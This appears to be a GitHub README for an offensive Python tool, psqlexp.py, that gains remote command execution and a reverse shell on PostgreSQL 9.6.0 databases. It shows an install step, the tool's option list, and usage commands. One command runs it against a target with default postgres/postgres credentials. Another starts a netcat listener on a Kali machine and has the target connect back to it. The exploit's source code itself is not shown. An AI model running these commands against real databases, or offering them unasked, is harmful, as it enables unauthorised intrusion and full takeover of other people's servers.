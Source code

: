 # Postgre SQL RCE and Reverse Shell

Tested on PostgreSQL DB 9.6.0

## Install psycopg2
```bash
$ sudo apt-get install python3-psycopg2
```
**Help**

```
usage: psqlexp.py [-h] [-T TARGET] [-p PORT] [-U USERNAME] [-P PASSWORD]
                  [--lhost LHOST] [--lport LPORT] [--cmd] [--os-shell]

optional arguments:
  -h, --help            show this help message and exit
  -T, --target   	The target host
  -p, --port  		The target port
  -U, --username	The application Username
  -P, --password        The password fo the user
  --lhost               Local host to connect back
  --lport               Local port to connect back
  --cmd                 Command execution on target
  --os-shell            Get reverse shell from the target
```

## Usage
**Run command on target**

```bash
$ python3 psqlexp.py -T TARGET_IP -p 5432 -U postgres -P postgres --cmd
psqlexp# <custom command>
```

**Get Reverse shell from target**

```bash
[KALI]$ nc -lvnp 8080

$ python3 psqlexp.py -T TARGET_IP -p 5432 -U postgres -P postgres --lhost LOCAL_IP --lport 8080 --os-shell
```


# Future Developement
 - Add File read and Write Capability
 - Add UDF hack support
